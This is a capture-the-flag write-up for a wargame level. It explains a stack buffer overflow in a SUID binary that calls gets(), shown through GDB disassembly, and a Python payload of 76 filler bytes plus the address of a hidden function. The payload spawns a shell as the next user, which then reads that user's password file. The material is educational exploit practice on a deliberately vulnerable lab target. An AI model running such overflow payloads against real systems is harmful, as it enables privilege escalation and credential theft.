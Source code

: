 # Level1
Level1 introduce buffer overflow attacks

# Tools
GDB

# Walkthrough
The home of `level1` contains a SUID bit binary file, owned by `level2`:
```
-rwsr-s---+ 1 level2 users  5138 Mar  6  2016 level1
```

Upon checking the `level1` binary with GDB and disassembling main, we see the code in the `main.asm` file. 

This code calls a really dangerous function, `gets`. `gets` doesn't perform any checks before writing to its buffer, thus someone that would write a long string inside of `gets` would pretty easily buffer overflow the stack, and could leverage that to execute arbitrary code.

Let's dissect the assembly code a little more to better understand the programme:
```x86
   0x08048480 <+0>:	push   ebp ; First two lines are the prologue, prepare the
   0x08048481 <+1>:	mov    ebp,esp ; stack frame for the main function to be executed
   0x08048483 <+3>:	and    esp,0xfffffff0 ; 
   0x08048486 <+6>:	sub    esp,0x50 ; Allows 80 bytes for the buffer
   0x08048489 <+9>:	lea    eax,[esp+0x10] ; Prepare the stack to receive data
   0x0804848d <+13>:	mov    DWORD PTR [esp],eax ; Prepare the stack to receive data
   0x08048490 <+16>:	call   0x8048340 <gets@plt> ; Calls gets()
   0x08048495 <+21>:	leave ; Setup to return control to the caller
   0x08048496 <+22>:	ret ; Setup to return control to the caller
```

Okay, apart from the `gets` call there is nothing too fancy, but maybe the programme calls other functions?
Using [dogbolt](https://dogbolt.org/), we can reverse engineer the binary.
We see that the programme also contains a function `run()`:
```c
int run()
{
  fwrite("Good... Wait what?\n", 1u, 0x13u, stdout);
  return system("/bin/sh");
}
```
As we can see, the `run()` commands prints a message and spawns a shell, with the privileges of level2 (file owner and SUID bit).

Using GDB, we can get the address of that function:
```
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  gets
0x08048340  gets@plt
0x08048350  fwrite
0x08048350  fwrite@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  run
0x08048480  main
0x080484a0  __libc_csu_init
0x08048510  __libc_csu_fini
0x08048512  __i686.get_pc_thunk.bx
0x08048520  __do_global_ctors_aux
0x0804854c  _fini
```
`run` is located at the address **0x08048444**. We want to setup our programme so that when `gets()` returns and pops the return address of the caller, instead of getting the `leave` instruction from the `main`, it calls the `run` function.

To do that, we will make use of the stack buffer overflow. We know that the programme allocates 80 bytes for the buffer of `gets()`.

We break on `main` and `gets`, and show the content of the stack:
```
(gdb) break main
Breakpoint 1 at 0x8048483
(gdb) break gets
Breakpoint 2 at 0x8048340
(gdb) run
Starting program: /home/user/level1/level1

Breakpoint 1, 0x08048483 in main ()
(gdb) c
Continuing.

Breakpoint 2, 0xb7e91e40 in gets () from /lib/i386-linux-gnu/libc.so.6
(gdb) x/20x $esp
0xbffff6ac:	0x08048495	0xbffff6c0	0x0000002f	0xbffff70c
0xbffff6bc:	0xb7fd0ff4	0x080484a0	0x0804978c	0x00000001
0xbffff6cc:	0x08048321	0xb7fd13e4	0x00000016	0x0804978c
0xbffff6dc:	0x080484c1	0xffffffff	0xb7e5edc6	0xb7fd0ff4
0xbffff6ec:	0xb7e5ee55	0xb7fed280	0x00000000	0x080484a9
``` 
The first double word of data is the address of the return value of the main function. Thus, we know that, just before filling out the buffer, we need to write out the address of the `run` function to call it.

We write 76 A and then the address of the `run` function in reverse order becuase of the little endian of the system. 
```bash
python -c 'print("A"*76 + "\x44\x84\x04\x08")' > attack.txt; ./level1 < attack.txt; rm -rf attack.txt
```

That segfaults, because Bash still reads on STDIN which is closed. Thus, we need to maintain STDIN opened after we inputed our payload:

```bash
python -c 'print("A"*76 + "\x44\x84\x04\x08")' > attack.txt; cat attack.txt - | ./level1; rm -rf attack.txt
```

```bash
level1@RainFall:~$ python -c 'print("A"*76 + "\x44\x84\x04\x08")' > attack.txt; cat attack.txt - | ./level1; rm -rf attack.txt
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```


# Sources
[Tutorial on GDB and Stack Buffer Overflow](https://eric-lo.gitbook.io/stack-smashing-attack/asm)
